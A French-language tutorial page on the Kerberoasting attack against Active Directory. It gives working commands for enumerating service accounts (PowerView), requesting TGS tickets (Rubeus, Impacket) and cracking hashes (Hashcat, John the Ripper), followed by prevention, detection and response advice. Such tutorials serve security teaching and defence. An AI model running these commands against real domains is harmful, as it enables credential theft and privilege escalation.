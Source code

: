 ```yaml
---
title: Kerberoasting
date: '2025-07-14'
draft: false
---
```


# 🔥 Kerberoasting

## Qu'est-ce que le Kerberoasting ?

Le **Kerberoasting** est une technique d'attaque Active Directory qui consiste à demander des tickets de service Kerberos (TGS) pour des comptes de service, puis à tenter de casser le hash du mot de passe hors-ligne. Cette attaque permet à un attaquant ayant un accès authentifié au domaine d'obtenir des mots de passe de comptes à privilèges.

## 🎯 Objectif de l'attaque

L'objectif principal est d'extraire des hashes de mots de passe de comptes de service (Service Accounts) qui utilisent souvent des mots de passe faibles ou réutilisés, permettant ainsi une élévation de privilèges dans l'environnement Active Directory.

## 📋 Étapes de l'attaque

### 1. Énumération des comptes de service

Identifier les comptes de service disposant d'un SPN (Service Principal Name) :

```powershell
# Avec PowerView
Get-NetUser -SPN | Select-Object samaccountname,serviceprincipalname

# Avec AD Module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

### 2. Demande de tickets TGS

Demander des tickets Kerberos pour les comptes de service identifiés :

```powershell
# Avec Rubeus
Rubeus.exe kerberoast /user:serviceaccount /outfile:hashes.txt

# Avec Impacket
python3 GetUserSPNs.py -request domain.local/user:password
```

### 3. Extraction des hashes

Extraire les hashes des tickets obtenus pour analyse hors-ligne.

### 4. Craquage des hashes

Utiliser des outils comme Hashcat ou John the Ripper pour casser les mots de passe :

```bash
# Avec Hashcat
hashcat -m 13100 -a 0 hash.txt wordlist.txt

# Avec John the Ripper
john --wordlist=wordlist.txt hash.txt
```

## 🛡️ Contre-mesures

### Prévention

- **Mots de passe forts** : Utiliser des mots de passe complexes et uniques pour tous les comptes de service
- **Rotation régulière** : Implémenter une politique de rotation des mots de passe
- **Principe du moindre privilège** : Limiter les droits des comptes de service au strict nécessaire
- **Groupes de sécurité** : Utiliser des groupes dédiés pour les comptes de service

### Détection

- **Surveillance des requêtes TGS** : Monitorer les demandes de tickets inhabituelles
- **Logs d'audit** : Activer l'audit détaillé des événements Kerberos
- **Alertes SIEM** : Configurer des alertes pour les patterns suspects
- **Analyse comportementale** : Détecter les activités anormales des comptes de service

### Réponse

- **Isolation immédiate** : Isoler les comptes compromis
- **Changement de mots de passe** : Forcer le changement de tous les mots de passe concernés
- **Analyse forensique** : Investiguer l'étendue de la compromission
- **Documentation** : Documenter l'incident et les leçons apprises

## 🔧 Outils populaires

| Outil | Description | Plateforme |
|-------|-------------|------------|
| **Rubeus** | Outil C# pour l'exploitation Kerberos | Windows |
| **Impacket** | Collection d'outils Python | Multi-plateforme |
| **PowerView** | Module PowerShell pour l'énumération AD | Windows |
| **Hashcat** | Craqueur de hashes haute performance | Multi-plateforme |
| **John the Ripper** | Craqueur de mots de passe classique | Multi-plateforme |

## 📚 Ressources supplémentaires

- [Guide complet sur HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoasting)
- [Documentation Microsoft sur Kerberos](https://docs.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview)
- [OWASP Active Directory Security](https://owasp.org/www-project-active-directory-security/)

---

*Dernière mise à jour : 14 juillet 2025*
